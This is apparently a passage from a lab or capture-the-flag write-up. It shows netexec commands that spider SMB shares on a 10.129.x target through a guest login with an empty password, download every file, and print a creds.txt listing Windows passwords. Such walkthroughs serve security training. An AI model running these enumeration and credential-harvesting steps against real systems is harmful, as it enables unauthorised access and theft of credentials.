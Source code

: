 ```
┌──(nabla㉿kali)-[~]
└─$ netexec smb 10.129.203.10 -u guest -p '' -M spider_plus

[SNIP]

SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.203.10.json".
SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [*] SMB Shares:           4 (ADMIN$, C$, Home, IPC$)
SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [*] SMB Readable Shares:  2 (Home, IPC$)
SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [*] Total folders found:  7
SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [*] Total files found:    5
```

```
┌──(nabla㉿kali)-[~]
└─$ cat /tmp/nxc_hosted/nxc_spider_plus/10.129.203.10.json | jq '.Home | keys[]'

"IT/Fiona/creds.txt"
"IT/John/information.txt"
"IT/John/notes.txt"
"IT/John/secrets.txt"
"IT/Simon/random.txt" 📌
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb 10.129.203.10 -u guest -p '' --spider Home -M spider_plus -o DOWNLOAD_FLAG=True

[SNIP]

SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [*] Downloads successful: 5
SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [+] All files processed successfully.
```

```
┌──(nabla㉿kali)-[~]
└─$ tree /tmp/nxc_hosted/nxc_spider_plus/10.129.203.10/Home/IT

/tmp/nxc_hosted/nxc_spider_plus/10.129.203.10/Home/IT
├── Fiona
│   └── creds.txt
├── John
│   ├── information.txt
│   ├── notes.txt
│   └── secrets.txt
└── Simon
    └── random.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ cat /tmp/nxc_hosted/nxc_spider_plus/10.129.203.10/Home/IT/Fiona/creds.txt 

Windows Creds

kAkd03SA@#!
48Ns72!bns74@S84NNNSl
SecurePassword!
Password123!
SecureLocationforPasswordsd123!!
```
